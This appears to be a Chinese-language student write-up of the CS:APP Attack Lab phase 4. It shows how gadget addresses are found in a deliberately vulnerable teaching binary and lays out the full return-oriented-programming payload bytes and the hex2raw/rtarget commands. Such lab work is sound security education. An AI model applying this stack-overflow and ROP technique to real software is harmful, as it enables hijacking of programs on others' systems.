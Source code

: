 为了将 cookie 存入 `%rdi`，最简单的想法是先将 cookie 存入栈中，再从栈中弹出。但是找不到 `popq %rdi`，只找到了 `popq %rax`，代码地址为：

```
00000000004019a7 <addval_219>:
  4019a7:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:   c3                      retq  
```

所以我们的第一个 *gadget* 的地址为 `0x4019ab`。

后面的动作可以用下面的汇编代码完成：

```
popq %rax
movq %rax %edi
ret
```

其中 `movq %rax %edi` 的字节码为：`48 89 c7 c3`。我们可以在下面的代码中找到：

```
00000000004019c3 <setval_426>:
  4019c3:   c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:   c3                      retq
```

所以我们第二个 *gadget* 的地址为 `0x4019c5`。

所以我们要构造的文件应该包含三部分，首先是40字节的缓冲区，然后是 `gadget1` 的地址，cookie，`gadget2` 的地址，最后是 `touch2` 的地址。构造 rtarget4.txt 如下：

```
cc cc cc cc cc cc cc cc cc cc                                                                                           
cc cc cc cc cc cc cc cc cc cc
cc cc cc cc cc cc cc cc cc cc
cc cc cc cc cc cc cc cc cc cc
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00  
c5 19 40 00 00 00 00 00  
ec 17 40 00 00 00 00 00 
```

我们先生成它的二进制码：`.\hex2raw < rtarget4.txt > rtarget4_r.txt`。
然后执行 `.\rtarget -i rtarget4_r.txt -q`，得到：

![Screen Shot 2017-07-09 at 17.13.01](/images/2017-7-9/Screen%20Shot%202017-07-09%20at%2017.13.01.png)

